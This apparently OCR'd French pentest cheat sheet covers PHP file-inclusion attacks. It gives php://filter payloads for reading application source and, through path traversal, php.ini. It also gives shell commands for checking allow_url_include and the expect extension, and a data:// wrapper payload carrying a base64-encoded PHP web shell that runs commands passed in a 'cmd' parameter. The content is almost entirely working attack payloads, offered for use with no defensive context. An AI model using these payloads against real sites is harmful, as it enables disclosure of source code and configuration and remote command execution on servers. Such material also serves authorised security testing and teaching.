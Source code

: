 ## Filtres PHP

> [!TIP]
> Lire code source des fichiers php

### PHP Wrappers

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Wrappers.md

```url
php://filter/read=convert.base64-encode/resource=config
```

```url
php://filter/read=string.rot13/resource=index.php
```

```url
php://filter/convert.iconv.utf-8.utf-16/resource=index.php
```

#### Configs PHP

##### Apache
```url
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

##### NGINX

```url
php://filter/read=convert.base64-encode/resource=../../../../etc/php/X.Y/fpm/php.ini
```

Check du allow_url_include -> si "On" -> utiliser data ou include wrappers pour RCE ou possible de RFI

```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

Check du expect -> si "extension=expect" -> utiliser expect wrappers pour RCE

```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```

## RCE

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Wrappers.md
### Data Wrapper

shell ?cmd=

```url
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd=id
```
